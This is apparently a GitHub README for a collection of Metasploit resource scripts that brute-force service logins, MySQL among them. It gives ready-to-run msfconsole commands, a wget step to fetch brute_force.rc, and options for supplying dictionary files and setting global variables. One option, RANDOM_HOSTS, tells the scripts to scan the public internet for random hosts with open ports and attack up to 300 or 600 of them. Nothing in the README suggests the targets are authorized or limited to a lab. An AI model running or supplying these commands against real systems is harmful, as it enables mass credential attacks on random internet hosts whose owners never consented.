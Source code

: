 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:
**Brute force resource scripts deletes my msfconsole database data at exit (delete host list).**<br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote>

- The msfconsole database must be empty (**clean**) at resource script execution (**first-time-run**)<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />

- To continue populating database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- To export database contents to database.xml local folder before executing any rc script (optional)<br />
`msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- All brute force resource scripts will build one logfile in **/root** directory.<br />
`/root/<resource_script_name>.log`<br /><br />

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run the resource scripts in 3 diferent ways:</blockquote>

- execute resource script **( Default scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime execution.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`<br /><br />

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`<br /><br />

- 3º clean (**or export**) msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- 4º run brute_force.rc resource script to search hosts on WAN (**limmit to 300 searchs**)<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'`<br /><br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote><br />

- 5º To populate the database with scans, just instruct the rc script to not clean db (**optional | not-adviced**)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- 6º To export database contents to database.xml local folder (**optional**)<br />
`msf > db_export -f xml database.xml`<br /><br />

### Suspicious Shell Activity RedTeam @2019

<br />

